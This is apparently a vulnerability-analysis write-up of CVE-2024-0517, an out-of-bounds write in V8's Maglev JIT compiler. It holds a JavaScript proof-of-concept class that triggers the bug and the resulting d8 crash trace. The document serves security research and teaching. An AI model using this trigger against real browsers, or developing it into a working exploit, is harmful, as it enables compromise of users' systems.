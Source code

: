 
## Vulnerability Analysis

### Proof of Concept

We will now analyze the vulnerability patched in CVE-2024-0517.  

This vulnerability arises when Maglev, one of the JIT compilers in the V8 engine, optimizes and executes code. When a child constructor creates an object, an uninitialized `Current_raw_allocation` value causes an OOB (Out-Of-Bounds) write.  

Here is a portion of the JavaScript code that triggers the vulnerability. When running the PoC code, an error like the one shown below occurs. This error happens because something overwrites the "free-space" section, which is then detected, causing a fatal error and terminating the program.  

The code and error message are as follows:

```jsx
class ClassParent {}
class ClassBug extends ClassParent {
        constructor(a20, a21, a22) {
                const v24 = new new.target();
                let x = [empty_object, empty_object, empty_object, empty_object, empty_object, empty_object, empty_object, empty_object];
                super();
                let a = [1.1];
                this.x = x;
                this.a = a;
                JSON.stringify(empty_array);
        }
        [1] = dogc();
}
```

```jsx
~/v8/out$ ./debug/d8 --allow-natives-syntax ./code/exploit.js

#
# Fatal error in ../../src/objects/free-space-inl.h, line 75
# Check failed: !heap->deserialization_complete() || map_slot().contains_map_value(free_space_map.ptr()).
#
#
#
#FailureMessage Object: 0x7ffe9d485188
==== C stack trace ===============================

    ./debug/d8(v8::base::debug::StackTrace::StackTrace()+0x1e) [0x5b9ae47a7fde]
    ./debug/d8(+0x8c0960d) [0x5b9ae47a260d]
    ./debug/d8(V8_Fatal(char const*, int, char const*, ...)+0x1ac) [0x5b9ae477853c]
    ./debug/d8(v8::internal::FreeSpace::IsValid() const+0xdf) [0x5b9ae0e79e1f]
    ./debug/d8(v8::internal::FreeSpace::next() const+0x1d) [0x5b9ae0e789dd]
[truncated]
```
